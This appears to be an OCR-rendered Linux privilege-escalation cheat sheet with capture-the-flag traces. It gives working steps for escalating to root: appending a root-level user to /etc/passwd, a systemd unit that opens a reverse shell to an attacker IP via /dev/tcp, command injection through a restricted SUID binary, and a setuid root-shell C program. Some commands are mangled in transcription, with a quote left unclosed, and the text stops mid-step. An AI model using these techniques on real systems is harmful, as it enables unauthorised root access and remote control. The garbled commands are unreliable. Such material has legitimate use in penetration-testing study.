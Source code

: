 ```
<root@kali:~$sudo /usr/bin/cat >> /etc/passwd>
pentesting: $1$hack$22.CgYt2uMolqeatCk9ih/:0:0::/root:/bin/bash
#^C
```

#### Exploiting /bin/systemctl when it has the SUID bit set

Execute the below commands one by one.

```
root@kali:~$: Type=oneshot
root@kali:~$: ExecStart=/bin/bash -c ‘exec 5<>/dev/tcp/[ATTACKER-IP]/[PORT]
root@kali:~$:while read line 0<&5; do $line 2>&5 >&5; done
root@kali:~$:[Install]
root@kali:~$:WantedBy=multi-user.target
root@kali:~$/bin/systemctl daemon-reload
root@kali:~$/bin/systemctl enable --now exploit.service
```

And we should receive the shell on the listener

#### Exploiting a binary that runs only certain set of commands and has SUID bit set

Lets say we have a binary that executes only one command. Say it executes ‘id’ and we want to use it to execute other commands as root since it has SUID bit set. We leverage a subshell to be run in a subprocess and pass the commands to the main tool. We pass the id command and then pass the subshell.

```
root@kali:~$/usr/local/bin/shell "/bin/id /\$(whoami)"
root@kali:~$/usr/local/bin/shell "/bin/id /\$(cat /root/root.txt)"
root@kali:~$/usr/local/bin/shell "/bin/id /\$(command)"
```

#### Privilege escalation C code

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	return 0;
}
```

#### Adding privileged user to /etc/passwd/

```
root@kali:~$perl -le 'print crypt("bulldog2", "aa")'
```

Now,adding the privileged user with the hash from the above command
